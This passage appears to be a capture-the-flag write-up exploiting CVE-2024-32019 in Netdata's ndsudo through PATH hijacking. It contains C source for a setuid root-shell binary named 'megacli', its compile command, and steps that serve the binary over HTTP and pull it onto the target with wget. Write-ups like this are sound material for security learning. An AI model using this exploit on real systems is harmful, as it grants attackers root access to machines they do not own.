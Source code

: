 When using these commands, we got this output.

```bash
oliver@editor:~$ /opt/netdata/usr/libexec/netdata/plugins.d/ndsudo megacli-disk-info
megacli MegaCli : not available in PATH.
oliver@editor:~$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
oliver@editor:~$ /opt/netdata/usr/libexec/netdata/plugins.d/ndsudo nvme-list
nvme : not available in PATH.
```

So `ndsudo` is looking for `megacli` or `MegaCli` in the `PATH`. Which means that we can leverage this point to create a malicious binary and place it in the `PATH` to hijacking the `megacli` command.

### ndsudo (CVE-2024-32019)
First let's create a malicious binary named `megacli` o our kali machine.

```c
#include <unistd.h>
#include <stdlib.h>

int main() {
    // Set effective UID and GID to root
    setuid(0);
    setgid(0);
    
    // Execute interactive bash shell as root
    execl("/bin/bash", "bash", "-i", NULL);
    
    return 0;
}
```

> We can check out this [allow setuid on shell scripts](https://unix.stackexchange.com/questions/364/allow-setuid-on-shell-scripts) to know how to allow setuid and compile it.

Then we compile it.

```bash
└─$ gcc megacli.c -o megacli
```

Second step, we gonna transfer the binary to the target machine.

```bash
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

On the target machine, we gonna make a `/fakebin` directory and place the `megacli` binary there.

```bash
oliver@editor:~$ mkdir -p ~/fakebin
oliver@editor:~$ wget http://10.10.16.31/megacli -O ~/fakebin/megacli
oliver@editor:~$ chmod +x ~/fakebin/megacli
```
